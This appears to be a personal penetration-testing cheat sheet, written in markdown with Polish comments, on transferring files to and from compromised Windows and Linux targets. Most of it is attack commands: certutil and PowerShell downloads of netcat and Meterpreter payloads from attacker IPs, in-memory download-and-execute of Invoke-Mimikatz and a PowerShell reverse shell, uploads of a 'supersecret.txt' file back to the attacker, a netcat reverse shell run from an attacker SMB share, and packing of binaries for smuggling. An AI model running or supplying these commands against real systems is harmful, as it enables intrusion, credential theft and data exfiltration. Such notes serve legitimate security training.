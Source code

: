 

# Metasploit payload deploy 
![[Metasploit#Payload deploy]]

# (Almost) All The Ways to File Transfer
https://juggernaut-sec.com/linux-file-transfers-for-hackers/
https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65
## GTFOBins / LOLBAS
Binarki Windows: https://lolbas-project.github.io/#/download
Binarki Linux: https://gtfobins.github.io/#+file%20download

# Transfering files to Targets
## terminal
```bash
# kompresja plików exe, -9 compress better
upx -9 nc.exe
exe2hex -x nc.exe -p nc.PS # -x <EXE_FILE> -p <OUT_AS_PS> / -b <OUT_AS_BAT>
less nc.PS # plix exe jako polecenie PS
cat nc.PS | tmux loadb - # załadowanie kemndy do bufora tmux
# można wkleić poprzez terminal, na maszynie powinien pojawić się plik nc.exe  

```
## FTP
```bash
auxiliary/server/ftp
set FTPROOT # folder na ktory,m ma działać server ftp

# ręcznie
cmd> ftp 192.168.100.100 # wchodzenie na server ftp
ftp>User: anonymous
ftp>(password: )
ftp> binary
ftp> get filename

# skrypt  w windows do automatyzacji ftp
cmd> ftp -s:ftp_commands.txt
# plik z poleceniami ftp_commands.txt
open 10.9.122.8
anonymous
whatever
binary
get met8888.exe
bye
```
## TFTP
```bash
auxiliary/server/tftp
set TFTPROOT # folder na ktory,m ma działać server ftp

# ręcznie
cmd> ftp 192.168.100.100 # wchodzenie na server ftp
ftp>User: anonymous
ftp>(password: )
ftp> binary
ftp> get filename
```
```PS
# enable tftp in Windows in command line
cmd> pkgmgr /iu:"TFTP"
tftp -i 192.168.10.10 GET/PUT password.txt
```
## HTTP
pobierz plik znajdujący się pod adresem http://10.10.10.10:1234/file.exe i nazwij go payload.exe 
```PowerShell
 # narzędzia do pobierania plików (jak curl)
 # pobierz plik na dysk
cmd> certutil -urlcache -f http://10.10.10.10:1234/file.exe payload.exe # cmd.exe

PS> IWR -Uri http://172.16.1.30/nc.exe -OutFile C:\temp\nc.exe # Powershell

PS> (new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\jarrieta\Desktop\met8888.exe') # Powershell

curl.exe 172.16.1.30/wget.exe -o C:\temp\wget.exe


# POBIERZ I WYKONAJ W PAMIĘCI
# IEX is only useful for downloading and executing PS1 scripts and BATCH (.BAT) files into memory. This will NOT download and execute an EXE file into memory.
PS> IEX(New-Object System.Net.WebClient).DownloadString('http://172.16.1.30/Invoke-Mimikatz.ps1') # Powershell

cmd> powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://172.16.1.30/Invoke-PowerShellTcp.ps1')"

```
Upload plików do atakującego
```Powershell
# wymaga włączonego serwera http z mozliwością uploadu
PS> (New-Object System.Net.WebClient).UploadFile('http://172.16.1.30/', 'C:\temp\supersecret.txt')
# mając wgrany na serwer apache (/var/www/html) plik upload.php pozwaljący na upload plików
PS> (New-Object System.Net.WebClient).UploadFile('http://172.16.1.30/upload.php', 'C:\temp\supersecret.txt')
cmd>powershell.exe -c "(New-Object System.Net.WebClient).UploadFile('http://172.16.1.30/upload.php', 'C:\temp\supersecret.txt')"
cmd> curl.exe -F 'file=@C:\\temp\\supersecret.txt' http://172.16.1.30
cmd> curl.exe -F 'file=@C:\\temp\\supersecret.txt' http://172.16.1.30/upload.php

```

```bash
wget http://192.196.45.2/php-backdoor.php
curl ...
```
![[(reverse) shell#scp]]
### Python Web Server

```python
python -m SimpleHTTPServer 80 # python 2.x
python -m http.server 80 # python 3.x
```

## SMB
Pobierz pliki z serwera SMB
```powershell
cmd> copy \\172.16.1.30\hax\nc.exe C:\temp\nc.exe
```
Upload plików na serwer SMB
```powershell
cmd> copy C:\temp\supersecret.txt \\172.16.1.30\hax\supersecret.txt
```
Since Windows handles UNC paths, you can just treat the `hax` share as if it’s just a local folder from Windows. Basic Windows file commands like `dir`, `copy`, `move`, etc all just work
```powershell
cmd> net viev \\10.10.10.1 # chec share
cmd> dir \\10.10.10.1\hax # list content
```
### Python SMB Server
![[impacket#smbserver]]
```powershell
# kali attacker
$ impacket-smbserver smbfolder $(pwd) -smb2support -user vk9guest -password vk9pass

# W windows victim
PS> $pass = ConvertTo-SecureString ‘vk9pass’ -AsPlainText -Force
PS> $pass
PS> $cred = New-Object System.Management.Automation.PSCredential(‘vk9guest’, $pass)
PS> $cred
# tworzy nowy dysk wirtualny (PSDrive) o nazwie "vk9smb3"
PS> New-PSDrive -Name vk9smb -PSProvider FileSystem -Credential $cred -Root \\10.10.14.13\smbfolder
# -Root \\10.10.14.13\smbfolder określa lokalizację, która będzie punktem początkowym dla tego nowego dysku wirtualnego
PS> cd vk9smb:
PS> dir
PS> .\winPEASx64.exe # execute program
# If you need to mount multiple times use only a different name
PS> New-PSDrive -Name vk9smb2 -PSProvider FileSystem -Credential $cred -Root \\10.10.14.13\smbfolder
PS> New-PSDrive -Name vk9smb3 -PSProvider FileSystem -Credential $cred -Root \\10.10.14.13\smbfolder
```

### Executing Files Directly from Attacker’s SMB Server (NO TRANSFER NEEDED)
```powershell
\\172.16.1.30\hax\nc.exe 172.16.1.30 443 -e cmd.exe
```
## evil-winrm
![[evil-winrm#File transfer]]
# EXECUTING Files and Scripts in WINDOWS DIRECTLY from Attacker
## evil-winrm
![[evil-winrm#Executing Files and Scripts Directly from Attacker (NO TRANSFER NEEDED)]]
## PowerShell z SMB share
Uruchom zdalnie exe z SMB share 
https://community.spiceworks.com/topic/1999030-remotely-executing-an-application-from-smb-share

```powershell 
PS C:\Users\user> Invoke-Command -ComputerName target-computer -ScriptBlock{ 
$CurrentLocation = "\\server\share"
$exe = "application.exe "
$Arguments = "/S", "/qn" # change as needed
Start-Process -FilePath "$CurrentLocation\$exe" -ArgumentList $Arguments
}
```

```query
spawning TTY Shells 
```